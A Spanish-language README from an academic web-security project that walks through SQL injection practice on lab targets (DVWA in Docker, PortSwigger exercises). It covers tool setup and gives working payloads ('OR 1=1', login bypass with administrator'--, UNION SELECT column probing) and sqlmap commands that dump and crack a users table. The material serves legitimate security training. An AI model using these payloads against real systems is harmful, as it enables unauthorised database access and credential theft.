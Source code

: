 # 🧪 README Completo y Replicable - SQL Injection Manual y Automatizada

Este documento contiene todos los pasos, herramientas, comandos y procedimientos utilizados para realizar prácticas de **inyección SQL manual y automatizada** con fines educativos y éticos, usando `Burp Suite`, `sqlmap`, `Firefox`, `DVWA` y `Docker` sobre Kali Linux.

---

## 🔧 ENTORNO: Kali Linux

Sistema base utilizado para realizar todas las pruebas. Las herramientas pueden funcionar también en otras distribuciones basadas en Debian con los ajustes adecuados.

---

## ✅ PASO 1: INSTALACIÓN Y CONFIGURACIÓN DE HERRAMIENTAS

### 1. Docker

```bash
sudo apt update
sudo apt install docker.io -y
sudo systemctl start docker
sudo systemctl enable docker
docker --version
```

### 2. Firefox

```bash
sudo apt install firefox-esr -y
```

### 3. Burp Suite Community Edition

```bash
sudo apt install burpsuite -y
burpsuite
```

Configurar Firefox para proxy:
- Host: `127.0.0.1`
- Puerto: `8080`

### 4. sqlmap

```bash
sudo apt install sqlmap -y
sqlmap --version
```

### 5. DVWA (Damn Vulnerable Web Application)

```bash
sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

---

## 📘 PASO 2: CONFIGURACIÓN DE DVWA

1. Acceder a `http://localhost`
2. Crear base de datos (`Create / Reset Database`)
3. Login: `admin / password`
4. Ir a “DVWA Security” y seleccionar `Low`

---

## 🧪 PASO 3: EJERCICIOS Y FASES DE ATAQUE

### 🔹 Ejercicio 1: SQLi - Retrieve Hidden Data (PortSwigger)

1. Visitar `/filter?category=Gifts`
2. Interceptar y modificar parámetro en Burp Suite:
```sql
Gifts'+OR+1=1--
```
3. Validar visualización de productos ocultos

---

### 🔹 Ejercicio 2: Login Bypass (PortSwigger)

1. Enviar en login:
```
Usuario: administrator'--
Contraseña: cualquier valor
```
2. Validar acceso sin credenciales

---

### 🔹 Ejercicio 3: UNION SELECT – Column Discovery (PortSwigger)

1. Visitar:
```
/filter?category=Accessories
```
2. Probar payloads:
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
3. Identificar el número correcto de columnas cuando no hay error

---

## 🔹 Ejercicio 4 Detallado: SQL Injection Automatizada con sqlmap (DVWA)

### 🐳 Preparación del Entorno

```bash
sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

- Acceder a `http://localhost`
- Crear DB → Login (`admin/password`) → Seguridad en Low

---

### 🧭 Fases del Ataque Automatizado

#### 1. Obtener PHPSESSID desde Firefox

- F12 → Storage → Cookies → Copiar valor

#### 2. Enumerar bases de datos

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=XYZ; security=low" --dbs
```

#### 3. Listar tablas de `dvwa`

```bash
sqlmap -u ... -D dvwa --tables
```

#### 4. Extraer tabla `users`

```bash
sqlmap -u ... -D dvwa -T users --dump
```

#### 5. Crackeo de hashes (responder `y`)

```
Hash: 5f4dcc3b5aa765d61d8327deb882cf99 → password
```

---

### 📁 Archivos generados por sqlmap

```bash
~/.local/share/sqlmap/output/localhost/
├── dump/
├── logs/
└── session files
```

---

## 🔧 HERRAMIENTAS ADICIONALES RECOMENDADAS

```bash
sudo apt install john -y
sudo apt install hash-identifier -y
sudo apt install nmap -y
sudo apt install wireshark -y
```

---

## 👤 Autor

**Cesar Ernesto Perdomo Guerrero**  
Proyecto Académico 2025 - Seguridad en Aplicaciones Web
